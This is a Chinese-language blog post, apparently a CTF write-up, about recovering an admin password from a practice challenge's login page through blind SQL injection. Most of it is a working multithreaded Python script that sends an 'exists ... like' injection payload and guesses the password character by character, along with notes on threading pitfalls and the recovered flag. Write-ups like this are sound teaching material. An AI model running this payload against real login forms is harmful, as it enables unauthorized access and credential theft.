 ```yaml
---
layout: post
author: "kele"
date: "2018-08-16 11:43:39"
titile: "sql injection to find password"  
tags: 
  - python
---
```

# sql injection to find password
题目地址:https://introctf.herokuapp.com/chall/2    

一个靶机上有两道题目，第一道很简单，就是sql注入登陆即可，第二道用到了sql中的exists like 猜解密码    
[参考地址](http://sqlzoo.net/hack/16password)   

写个python脚本磕磕绊绊用了一下午才调试成功，主要是单线程太慢，多线程又有许多的限制没有搞定      
简单说一下多线程的几个坑：   
1. 因为爆破的是一个密码，所以在修改密码的时候只能有一个线程修改密码，密码需要一个互斥量  
2. 线程不能太多，需要控制线程数，所以需要一个互斥量来控制线程数  
3. 因为flag中会有'_'字符，但是在sql中的like 子句中 `_`代表的是任意一个字符，所以需要使用转移语法   
4. ** 假如你的程序越来越慢，最后卡死的话，不妨检查检查互斥量的值是不是一直减少，线程数逐渐减少**

```python
import requests
import string
import threading



maxconnection=5
connection_lock=threading.BoundedSemaphore(value=maxconnection)
passwdlock=threading.Semaphore(1)
foundlock=threading.Semaphore(1)



url='https://ctfprob2.herokuapp.com/bobsadminpage/login.php'
dictionary=string.ascii_letters+'{}'+string.digits+'_'






passwd="fl"
#bug1=flag{sql_1nJ3C
Found=False
#final password: flag{sql_1nJ3C710N_1S_k3WL}

def brutepassword(d):
    global passwd
    global Found
    if Found:
        #一定要添加connection_lock.release()，否则直接return false,导致互斥量越来越少，最终只剩下主进程，陷入无限死循环中
        connection_lock.release()
        return False
    data={'username':'admin','password':''}
    if d=='_':
        d='/_'
    #使用了escape 定义了转义符为/,所以like中的'/_'代表就是转义字符'_'
    data['password']="' or exists(select * from users where username='admin' and password like '" +passwd+d+"%' escape '/') and ''='"
    html=requests.post(url,data=data).text
    if 'script' in html:#right
        Found=True
        #passwdlock.acquire()
        #因为有的时候d会被转义是两个字符'\_',但是我们只需要最后一个字符就可以了
        passwd=passwd+d[-1]
        #passwdlock.release()
        print('current password: '+passwd)
        if(d=='}'):
            print('final password: '+passwd)
            exit(0)
    else:
        #print("wrong word: "+passwd+d)
        pass
    
    connection_lock.release()







def main():
    global Found
    global passwd
    
    #thread=[]
    #p=Pool(processes=5) 244
    while True:
        for d in dictionary:
            connection_lock.acquire()
            t=threading.Thread(target=brutepassword,args=d)
            num=threading.active_count()
            #print(num)
            #print(connection_lock._value)
            #print(connection_lock)
            t.start()
            #thread.append(t)
            #p.apply_async(func,args=d)
            if Found:
                #foundlock.release()
                break
    

        Found=False

        if '}' in passwd:
            break



if __name__ == '__main__':
    main()
    '''
    p=Pool(4)
    while True:
        for i in range(10):
            p.apply_async(func,str(i))

    p.close()
    p.join()
    '''
```

ps： multiprocessing 是多进程，但是stackover上提到它有个隐藏的多线程的接口，比较坑爹的是multipocessing需要一口气把进程全添加到进程池之后，关闭进程池，进程才开始运行。
threadpool库已经过于陈旧，所以不推荐使用
简单的多线程可以使用互斥量实现一个简单的线程池，上面的代码就实现了一个线程池